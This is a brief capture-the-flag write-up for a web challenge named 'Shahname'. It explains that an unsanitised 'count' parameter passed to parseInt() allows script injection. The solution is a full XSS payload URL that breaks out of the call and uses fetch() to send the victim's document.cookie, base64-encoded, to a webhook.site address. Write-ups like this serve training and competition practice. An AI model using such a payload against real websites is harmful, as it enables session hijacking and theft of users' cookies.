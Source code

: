 # Shahname
Solved by: @benkyou

### Question:
my homework seems secure.
App: https://shahname-chall.fmc.tf/
Admin bot: https://shahname-bot.fmc.tf/

### Solution:
`count` is passed directly to `parseInt()` , you can escape here and inject javascript.

```
https://shahname-chall.fmc.tf/?count=%22);fetch(%27https://webhook.site/887722a2-39e8-4ac2-869e-64489b72347d/?c=%27%2bbtoa(document.cookie))//
```
